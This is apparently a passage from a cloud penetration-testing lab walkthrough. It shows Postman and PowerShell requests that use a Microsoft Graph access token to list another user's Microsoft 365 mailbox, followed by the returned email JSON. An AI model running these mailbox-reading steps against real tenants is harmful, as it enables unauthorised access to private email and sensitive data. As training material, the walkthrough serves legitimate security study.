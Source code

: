 ```powershell
ID                                   DisplayName      UserPrincipalName                          LicenseType
--                                   -----------      -----------------                          -----------
0505af70-fea0-4dc9-8a8e-89cb1d0a16c5 Marie R Williams MarieWilliams@pharmacorphq.onmicrosoft.com O365_BUSINESS_ESSEN...
```

- The auditor can attempt to list any messages in the inbox of `MarieWilliams@pharmacorphq.onmicrosoft.com` to find sensitive information.
###### Postman
```http
GET /v1.0/users/MarieWilliams@pharmacorphq.onmicrosoft.com/messages HTTP/1.1
Host: graph.microsoft.com
Authorization: eyJ0eX...CMGlvvgcvw
```
###### PowerShell
```powershell
$GraphToken = (Get-AzAccessToken -ResourceUrl https://graph.microsoft.com).Token
$user = 'MarieWilliams@pharmacorphq.onmicrosoft.com'
$URL = "https://graph.microsoft.com/v1.0/users/$user/messages"
$Params = @{
"URI" = $URL
"Method" = "GET"
"Headers" = @{
"Content-Type" = "application/json"
"Authorization" = "Bearer $GraphToken"
}
}

$Emails = Invoke-RestMethod @Params -UseBasicParsing
$Emails.value
```

```json
{
    "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#users('MarieWilliams%40pharmacorphq.onmicrosoft.com')/messages",
    "value": [
        {
            "@odata.etag": "W/\"CQAAABYAAABuOv53PmzjQYRYobfzvCWVAACSV8n8\"",
            "id": "AAMkADVhNjFkYWE4LTIxYjUtNDQzNi04MzI5LTVhMzg2ZjY1YTY3OQBGAAAAAABHsGgwJaTUTpY7VKQoPhO0BwBuOv53PmzjQYRYobfzvCWVAAAAAAEMAABuOv53PmzjQYRYobfzvCWVAACSZsmMAAA=",
            "createdDateTime": "2023-01-30T11:24:24Z",
            "lastModifiedDateTime": "2023-01-30T11:24:27Z",
            "changeKey": "CQAAABYAAABuOv53PmzjQYRYobfzvCWVAACSV8n8",
            "categories": [],
            "receivedDateTime": "2023-01-30T11:24:25Z",
            "sentDateTime": "2023-01-30T11:24:22Z",
            "hasAttachments": false,
            "internetMessageId": "<SG2PR06MB2937ADCCED30BF9B9400DB10FBD39@SG2PR06MB2937.apcprd06.prod.outlook.com>",
            "subject": "Your documents are approved - Please do not reply",
            "bodyPreview": "Dear Marie,\n\nYour documents are uploaded and approved. You can find the documents here - https://billingprocessorstg.blob.core.windows.net/mariewilliams\n\nIn case of any changes, please upload the documents again and submit a new request.\n\n\nRegards,",
            "importance": "normal",
            "parentFolderId": "AAMkADVhNjFkYWE4LTIxYjUtNDQzNi04MzI5LTVhMzg2ZjY1YTY3OQAuAAAAAABHsGgwJaTUTpY7VKQoPhO0AQBuOv53PmzjQYRYobfzvCWVAAAAAAEMAAA=",
            "conversationId": "AAQkADVhNjFkYWE4LTIxYjUtNDQzNi04MzI5LTVhMzg2ZjY1YTY3OQAQABqq0b4q6I5LrujjLTM3P4A=",
            "conversationIndex": "AQHZNJy2GqrRvirojkuu6OMtMzc/gA==",
            "isDeliveryReceiptRequested": false,
            "isReadReceiptRequested": false,
```